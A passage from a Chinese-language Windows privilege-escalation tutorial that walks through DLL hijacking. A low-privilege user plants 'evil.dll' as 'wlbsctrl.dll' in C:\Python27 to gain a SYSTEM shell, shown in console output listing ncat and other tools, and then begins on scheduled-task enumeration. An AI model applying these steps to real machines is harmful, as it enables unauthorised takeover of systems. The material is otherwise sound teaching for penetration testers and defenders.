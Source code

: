 在把恶意DLL传输到目标机器后，我们需要把它重命名为“wlbsctrl.dll”并且移动到"C:Python27"目录下，然后我们需要耐心的等待机器重启（或者我们可以尝试强制让它重启），然后我们将获得一个SYSTEM权限的shell了。

```
重要的再说一遍，下面的操作是用一个低权限的用户user1操作的。
 C:Usersuser1Desktop&gt; dir
  Volume in drive C has no label.
  Volume Serial Number is 948D-A98F
  Directory of C:Usersuser1Desktop
 02/18/2014  01:49 PM    &lt;DIR&gt;          .
 02/18/2014  01:49 PM    &lt;DIR&gt;          ..
 04/22/2013  09:39 AM           331,888 accesschk.exe
 02/18/2014  12:38 PM            14,336 evil.dll
 01/25/2014  12:46 AM            36,864 fubar.exe
 01/22/2014  08:17 AM    &lt;DIR&gt;          incognito2
 06/30/2011  01:52 PM         1,667,584 ncat.exe
 11/22/2013  07:39 PM             1,225 wmic_info.bat
                5 File(s)      2,051,897 bytes
                3 Dir(s)      73,052,160 bytes free
 C:Usersuser1Desktop&gt; copy evil.dll C:Python27wlbsctrl.dll
         1 file(s) copied.
 C:Usersuser1Desktop&gt; dir C:Python27
  Volume in drive C has no label.
  Volume Serial Number is 948D-A98F
  Directory of C:Python27
 02/18/2014  01:53 PM    &lt;DIR&gt;          .
 02/18/2014  01:53 PM    &lt;DIR&gt;          ..
 10/20/2012  02:52 AM    &lt;DIR&gt;          DLLs
 10/20/2012  02:52 AM    &lt;DIR&gt;          Doc
 10/20/2012  02:52 AM    &lt;DIR&gt;          include
 01/28/2014  03:45 AM    &lt;DIR&gt;          Lib
 10/20/2012  02:52 AM    &lt;DIR&gt;          libs
 04/10/2012  11:34 PM            40,092 LICENSE.txt
 04/10/2012  11:18 PM           310,875 NEWS.txt
 04/10/2012  11:31 PM            26,624 python.exe
 04/10/2012  11:31 PM            27,136 pythonw.exe
 04/10/2012  11:18 PM            54,973 README.txt
 10/20/2012  02:52 AM    &lt;DIR&gt;          tcl
 10/20/2012  02:52 AM    &lt;DIR&gt;          Tools
 04/10/2012  11:31 PM            49,664 w9xpopen.exe
 02/18/2014  12:38 PM            14,336 wlbsctrl.dll
                7 File(s)        523,700 bytes
                9 Dir(s)      73,035,776 bytes free
```

万事俱备，只差重启。为了做演示，我使用Administrator用户手动的重启了这个被攻击的服务。

[![](https://p1.ssl.qhimg.com/t01ba5024b454f87fe6.png)](https://p1.ssl.qhimg.com/t01ba5024b454f87fe6.png)

最后的例子呢，让我们看一下计划任务。重新检查我们一开始搜集的关于计划任务的信息，我将对下面的条目进行讲解。

```
HostName:                             B33F
 TaskName:                             LogGrabberTFTP
 Next Run Time:                        2/19/2014 9:00:00 AM
 Status:                               Ready
 Logon Mode:                           Interactive/Background
 Last Run Time:                        N/A
 Last Result:                          1
 Author:                               B33Fb33f
 Task To Run:                          E:GrabLogstftp.exe 10.1.1.99 GET log.out E:GrabLogsLogslog.txt
 Start In:                             N/A
 Comment:                              N/A
 Scheduled Task State:                 Enabled
```